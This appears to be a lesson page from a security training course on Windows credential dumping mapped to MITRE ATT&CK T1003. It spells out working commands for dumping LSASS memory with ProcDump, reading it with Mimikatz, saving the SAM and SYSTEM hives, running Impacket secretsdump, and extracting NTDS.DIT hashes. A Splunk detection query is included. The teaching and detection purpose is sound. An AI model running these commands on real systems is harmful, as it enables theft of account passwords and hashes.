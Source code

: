 ```yaml
---
layout: post
title: "6.4 Credential Dumping"
date: 2025-06-12
permalink: /modules/6/credential-dumping/
excerpt: >
  Extract passwords and hashes from memory and disk—LSASS dumps, SAM hive exports, and Mimikatz‐style artifacts—then map to ATT&CK Credential Access techniques.
header:
  overlay_image: /assets/images/credential-dumping-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “Credentials are the keys to the kingdom—find them in memory and registry to break the chain.”  
> — Credential Access Specialist

## 1 • Technique Overview (T1003 Family)

| Sub-Technique                 | ATT&CK ID      | Description                                |
|-------------------------------|----------------|--------------------------------------------|
| LSASS Memory Dump            | T1003.001      | Dump LSASS process memory to extract secrets |
| SAM Hive Dump                | T1003.002      | Export Security Account Manager database   |
| NTDS DIT Extraction          | T1003.003      | Dump domain credentials from AD database   |
| Cached Domain Credentials    | T1003.005      | Retrieve credentials from registry cache   |

## 2 • LSASS Memory Extraction (T1003.001)

- **Tools:** `procdump`, `Task Manager`, `WinPmem`  
- **Command Example (Sysinternals ProcDump):**  
  ```powershell
  procdump -accepteula -ma lsass.exe lsass.dmp
  ```
- **Analysis in Mimikatz:**  
```powershell
  mimikatz # sekurlsa::minidump lsass.dmp
  mimikatz # sekurlsa::logonpasswords
  ```

## 3 • SAM & SYSTEM Hive Dumps (T1003.002)

- **Artifacts:**  
  - `C:\Windows\System32\config\SAM`  
  - `C:\Windows\System32\config\SYSTEM`  
- **Extraction:**  
```powershell
  reg.exe save HKLM\SAM C:\temp\SAM.save
  reg.exe save HKLM\SYSTEM C:\temp\SYSTEM.save
  ```
- **Offline Decryption (Impacket):**  
  ```bash
  python3 secretsdump.py -sam C:\temp\SAM.save -system C:\temp\SYSTEM.save LOCAL
    ``` 

## 4 • NTDS.DIT Extraction (T1003.003)

- **Location:** `C:\Windows\NTDS\NTDS.DIT` (requires elevated access)  
- **Method:**  
  - Use `ntdsutil` to authorize snapshot and mount volume  
  - Extract `.DIT` file  
- **Analysis (DSInternals):**  
  ```powershell
  Install-Module -Name DSInternals
  Get-ADDBAccount -All -DatabasePath "C:\mount\NTDS.DIT" -Bootkey 0x... 
  ```

## 5 • Mapping & Reporting

- **Technique Tagging:**  
  ```splunk
  index=sysmon EventCode=10 Image="*procdump.exe" | eval technique="T1003.001"
  ```
- **Timeline:** correlate LSASS dump time with suspicious logon events.  
- **Secure Storage:** ensure dumps are hashed and stored in controlled evidence repository.

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://attack.mitre.org/techniques/T1003/" target="_blank">ATT&CK T1003 Credential Dumping</a></li>
    <li><a href="https://docs.microsoft.com/sysinternals/downloads/procdump" target="_blank">Sysinternals ProcDump</a></li>
    <li><a href="https://github.com/SecureAuthCorp/impacket" target="_blank">Impacket secretsdump.py</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/6/kerberoasting/" class="next-link">6.5 Kerberoasting & Ticket Theft →</a>